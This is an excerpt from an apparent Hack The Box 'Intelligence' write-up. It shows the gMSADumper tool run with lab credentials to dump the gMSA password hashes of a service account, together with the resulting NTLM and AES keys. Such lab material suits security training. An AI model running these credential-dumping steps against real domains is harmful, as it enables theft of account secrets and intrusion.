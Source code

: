 !["Reading password"](assets/readpass-bloodhound.png)

Bloodhound recommands we use: https://github.com/micahvandeusen/gMSADumper

!["Dumping password"](assets/password-dumper.png)

```bash
ma1ware@shadow:~/pentest/htb/boxes/Intelligence/gMSADumper$ python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::fb49fcd5ffc6fefa70503e08c9cd8261
svc_int$:aes256-cts-hmac-sha1-96:7780ba9c60cac7b51f89a4faee199cb103b350082fdac5f7c412fd024d0fc5e6
svc_int$:aes128-cts-hmac-sha1-96:de0b7110639ccbcd2cf195840d6b3ca7
```
